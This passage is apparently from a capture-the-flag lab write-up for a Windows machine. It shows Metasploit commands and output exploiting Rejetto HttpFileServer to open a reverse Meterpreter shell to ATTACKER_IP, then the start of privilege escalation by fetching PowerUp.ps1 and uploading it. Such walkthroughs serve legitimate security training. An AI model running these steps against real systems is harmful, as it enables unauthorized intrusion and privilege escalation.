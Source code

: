 \# Name Disclosure Date Rank Check Description

\- ---- --------------- ---- ----- -----------

0 exploit/windows/http/rejetto\_hfs\_exec 2014-09-11 excellent Yes Rejetto HttpFileServer Remote Command Execution

msf6 > use 0

set rhosts TARGET\_IP

set rport 8080

exploit

\[\*] Started reverse TCP handler on ATTACKER\_IP:4444

\[\*] Using URL: http://TARGET\_IP:8080/AHrBVKMyZam

\[\*] Server started.

\[\*] Sending a malicious request to /

\[\*] Payload request received: /AHrBVKMyZam

\[\*] Sending stage (175686 bytes) to ATTACKER\_IP

\[!] Tried to delete %TEMP%\eojOuZkUFsb.vbs, unknown result

\[\*] Meterpreter session 1 opened (TARGET\_IP:4444 -> ATTACKER\_IP:49261) at 2024-02-22 13:24:25 +0000

\[\*] Server stopped.

getuid

Server username: STEELMOUNTAIN\bill

* User flag is located in C:\Users\bill\Desktop\user.txt.

### **Privilege Escalation** <a href="#id-7sn660okfhzs" id="id-7sn660okfhzs"></a>

* Further enumerate target and escalate privileges to root.

**1. Use**[ **PowerUp**](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) **PowerShell script to enumerate target.**

* Evaluates Windows target and determines any abnormalities.

PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

**2. Use Metasploit shell upload to transfer script to target.**

upload /root/PowerUp.ps1

**3. Load PowerShell extension into Meterpreter.**

load powershell
